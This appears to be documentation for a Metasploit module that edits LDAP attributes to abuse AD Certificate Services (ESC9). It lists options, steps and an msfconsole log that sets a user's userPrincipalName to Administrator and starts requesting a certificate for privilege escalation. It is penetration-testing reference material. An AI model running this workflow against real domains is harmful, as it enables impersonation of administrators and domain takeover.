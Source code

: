 ### UPDATE_LDAP_OBJECT_VALUE
The new value to set for the specified LDAP attribute, set this to the user name you wish to impersonate, e.g., `Administrator` if you're updating the `userPrincipalName`.
If you're updating the `dNSHostName`, set this to the desired DNS hostname, e.g., `host.domain.local` (it must be a valid FQDN in this case).

### ALT_UPN
An alternate UPN (User Principal Name) to set for the target user, e.g., `Administrator@domain.local`.

### ALT_SID
An alternate SID (Security Identifier) to set for the target user, e.g., `S-1-5-21-...`.

### ALT_DNS
An alternate DNS hostname to set for the target user, e.g., `host.domain.local`.

## Verification Steps

1. Start msfconsole
1. Do: `use esc_update_ldap_object`
1. Set the `RHOST`, `LDAPUsername`, `LDAPPassword` and `LDAPDomain` options - note these credentials need to have write access over the `TARGET_USERNAME`
1. Set `TARGET_USERNAME` to the user you want to update and then request a certificate for
1. Set the `UPDATE_LDAP_OBJECT` to either `userPrincipalName` or `dNSHostName` depending on the scenario you are exploiting
1. Set the `UPDATE_LDAP_OBJECT_VALUE` to the value you want to set for the `UPDATE_LDAP_OBJECT`, e.g., `Administrator`
1. Set `CA` to the name of the CA you want to request a certificate and `cert_template` to the name of the certificate template you want to use
1. Run the module
1. This should update the LDAP object attribute and request a certificate for the target user, which will be saved as a .pfx file.
1. If the target is vulnerable to the scenario you are exploiting, the pfx file will allow for privilege escalation.

## Scenarios

### ESC9 - Update userPrincipalName to Administrator
```
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set rhosts 172.16.199.200
rhosts => 172.16.199.200
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldaprport 389
ldaprport => 389
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set target_username user2
target_username => user2
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldapdomain kerberos.issue
ldapdomain => kerberos.issue
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldappassword N0tpassword!
ldappassword => N0tpassword!
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldapusername user1
ldapusername => user1
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set cert_template ESC9-Template
cert_template => SpencerTest
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ca kerberos-DC2-CA
ca => kerberos-DC2-CA
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set UPDATE_LDAP_OBJECT_VALUE Administrator
UPDATE_LDAP_OBJECT_VALUE => Administrator
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > run
[*] Running module against 172.16.199.200
[*] 172.16.199.200:445 - Loading auxiliary/admin/ldap/ldap_object_attribute
[*] 172.16.199.200:445 - Running auxiliary/admin/ldap/ldap_object_attribute
```